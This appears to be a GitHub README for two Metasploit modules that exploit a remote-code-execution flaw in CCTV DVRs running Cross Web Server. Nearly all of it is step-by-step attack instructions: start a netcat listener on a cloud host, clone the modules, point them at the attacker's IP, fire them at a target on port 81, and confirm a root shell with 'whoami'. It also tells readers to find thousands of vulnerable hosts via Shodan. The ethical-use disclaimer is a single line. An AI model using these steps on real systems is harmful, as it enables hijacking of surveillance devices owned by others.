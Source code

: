 This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

Step 1:

On this cloud host type

nc -l 666

On another host, or the same host in another window (making sure metasploit is installed)

Step 1:

cd /usr/share/metasploit-framework/modules/exploits/linux/http

Step 2:

git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git

Step 3:

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host


Step 4:

type msfconsole

Step 5:

use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit

(then wait for it to execute, ignore errors for the most part) Step 6:

use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit

(then wait for it to execute, ignore errors for the most part)

Step 7:

go back to your cloud or web-facing ip netcat session and type in:

whoami

to get the answer

root

if the exploit executed succesfully
